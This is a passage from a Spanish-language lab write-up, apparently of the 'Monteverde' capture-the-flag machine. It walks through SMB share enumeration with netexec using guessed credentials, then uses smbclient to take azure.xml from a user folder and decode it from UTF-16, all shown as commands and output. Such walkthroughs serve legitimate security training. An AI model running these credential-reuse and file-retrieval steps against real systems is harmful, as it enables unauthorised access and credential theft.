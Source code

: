 ```
# netexec smb 10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs' --shares
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.129.228.111  445    MONTEVERDE       [*] Enumerated shares
SMB         10.129.228.111  445    MONTEVERDE       Share           Permissions     Remark
SMB         10.129.228.111  445    MONTEVERDE       -----           -----------     ------
SMB         10.129.228.111  445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.129.228.111  445    MONTEVERDE       azure_uploads   READ            
SMB         10.129.228.111  445    MONTEVERDE       C$                              Default share
SMB         10.129.228.111  445    MONTEVERDE       E$                              Default share
SMB         10.129.228.111  445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.129.228.111  445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.129.228.111  445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.129.228.111  445    MONTEVERDE       users$          READ           
```

Nos `conectamos` por `smb` y nos `descargamos` el archivo `azure.xml`

```
# smbclient -U 'SABatchJobs%SABatchJobs' //10.129.228.111/users$       
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 14:12:48 2020
  ..                                  D        0  Fri Jan  3 14:12:48 2020
  dgalanos                            D        0  Fri Jan  3 14:12:30 2020
  mhope                               D        0  Fri Jan  3 14:41:18 2020
  roleary                             D        0  Fri Jan  3 14:10:30 2020
  smorgan                             D        0  Fri Jan  3 14:10:24 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \> cd mhope
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 14:41:18 2020
  ..                                  D        0  Fri Jan  3 14:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 14:40:23 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \mhope\> get azure.xml 
getting file \mhope\azure.xml of size 1212 as azure.xml (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
smb: \mhope\> exit
```

El `archivo` está en `UTF-16` por lo que `no` es `legible`

```
# file azure.xml 
azure.xml: Unicode text, UTF-16, little-endian text, with CRLF line terminators
```

`Convertimos` el `archivo` de `UTF-16` a `UTF-8` para que sea `legible`
